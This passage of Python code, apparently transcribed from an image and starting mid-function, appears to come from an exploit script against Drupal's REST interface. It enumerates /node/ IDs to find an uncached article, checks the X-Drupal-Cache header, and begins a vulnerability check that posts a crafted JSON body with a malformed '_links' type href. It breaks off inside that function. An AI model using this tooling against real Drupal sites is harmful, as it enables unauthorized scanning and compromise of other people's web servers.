         result = urlparse(x)
        return all([result.scheme, result.netloc, result.path])


    def check_drupal_cache(r: requests.Response) -> bool:
        """
            Check if a response had the cache header.
        """

        if 'X-Drupal-Cache' in r.headers and r.headers['X-Drupal-Cache'] == 'HIT':
            return True

        return False


    def find_article(base: str, f: int = 1, l: int = 100):
        """
            Find a target article that does not 404 and is not cached
        """

        while f < l:
            u = build_url(base, '/node/', str(f))
            r = requests.get(u)

            if check_drupal_cache(r):
                print(f'[x] Node enum found a cached article at: {f}, skipping')
                f += 1
                continue

            # found an article?
            if r.status_code == 200:
                return f
            f += 1


    def check(base: str, node_id: int) -> bool:
        """
            Check if the target is vulnerable.
        """

        payload = {
            "_links": {
                "type": {
                    "href": f"{urljoin(base, '/rest/type/node/INVALID_VALUE')}"
                }
            },
            "type": {
                "target_id": "article"
            },
            "title": {
                "value": "My Article"
            },
            "body": {
                "value": ""
            }
        }
